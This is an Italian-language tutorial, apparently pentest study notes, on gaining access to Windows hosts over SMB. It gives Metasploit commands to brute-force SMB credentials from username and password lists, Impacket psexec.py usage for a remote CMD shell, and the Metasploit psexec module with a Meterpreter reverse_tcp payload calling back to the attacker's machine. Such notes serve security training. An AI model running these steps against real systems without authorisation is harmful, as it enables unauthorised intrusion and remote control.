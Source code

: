 # Exploiting SMB con PsExec

## Introduzione all’autenticazione SMB

Il protocollo **SMB (Server Message Block)** viene utilizzato nei sistemi Windows per la condivisione di file, stampanti e risorse di rete. SMB supporta due principali modalità di autenticazione:

1. **Autenticazione dell’utente** – richiede un nome utente e una password validi.  
2. **Autenticazione della risorsa condivisa** – richiede solo una password per accedere a una cartella condivisa, senza nome utente.

Durante la procedura di autenticazione SMB, il processo si svolge nel seguente modo:
- Il client invia una richiesta di autenticazione al server, specificando un nome utente.
- Il server risponde con una **stringa casuale (challenge)**.
- Il client cifra questa stringa con l’**hash della password dell’utente** e la invia al server.
- Il server, conoscendo l’hash della password, verifica la risposta.
Se la stringa corrisponde, l’autenticazione viene accettata.

---

## Che cos’è PsExec

**PsExec** è uno strumento sviluppato da Sysinternals (Microsoft) che consente di **eseguire comandi e processi su sistemi Windows remoti**.  
Può essere considerato un’alternativa più leggera di RDP: anziché accedere con un’interfaccia grafica, PsExec fornisce un accesso testuale simile al terminale, eseguendo comandi CMD da remoto.

Il suo funzionamento si basa sul protocollo SMB: ciò significa che può essere utilizzato per autenticarsi ed eseguire comandi su un host remoto **senza bisogno di vulnerabilità**, a condizione di possedere credenziali valide.

---

## 1 – Enumerazione delle credenziali con brute force

Uno dei modi più comuni per ottenere credenziali valide è il **brute force** sul servizio SMB.  
In Metasploit esiste un modulo apposito:

`use auxiliary/scanner/smb/smb_login` ⟶ modulo per tentare autenticazioni SMB. <br>
`set RHOSTS <IP>` ⟶ indirizzo target. <br>
`set USER_FILE <lista_username.txt>` ⟶ file contenente possibili username. <br>
`set PASS_FILE <lista_passwords.txt>` ⟶ file contenente possibili password. <br>
`run` ⟶ avvia il brute force. <br>

Se il modulo restituisce una coppia valida di credenziali, possiamo proseguire all’autenticazione.

---

## 2 – Accesso remoto con psexec.py (Impacket)

Lo strumento `psexec.py` della suite **Impacket** consente di autenticarsi e ottenere una shell CMD:
si trova al path `/usr/share/doc/python3-impacket/examples/psexec.py`
`psexec.py <username>@<IP> cmd.exe` ⟶ connessione remota tramite SMB con prompt dei comandi. <br>

Dopo l’invio del comando, verrà chiesta la password. Inserendo quella corretta, si otterrà accesso al prompt di Windows con i privilegi dell’utente fornito.

Questo tipo di autenticazione è **totalmente legittima**, non sfrutta vulnerabilità, e viene spesso usata da amministratori di sistema per gestire host remoti.

---

## 3 – Alternativa con Metasploit

Metasploit offre anche un modulo per sfruttare SMB usando credenziali valide:

`use exploit/windows/smb/psexec` ⟶ modulo per eseguire comandi su target Windows. <br>
`set RHOSTS <IP>` ⟶ indirizzo del sistema bersaglio. <br>
`set SMBUser <username>` ⟶ nome utente. <br>
`set SMBPass <password>` ⟶ password. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ tipo di payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta su cui ricevere la shell. <br>
`run` ⟶ avvia l’exploit. <br>

Questo modulo carica una reverse shell sul target e restituisce una sessione Meterpreter. Da lì:

`getuid` ⟶ mostra il contesto utente. <br>
`shell` ⟶ apre un prompt CMD. <br>

---
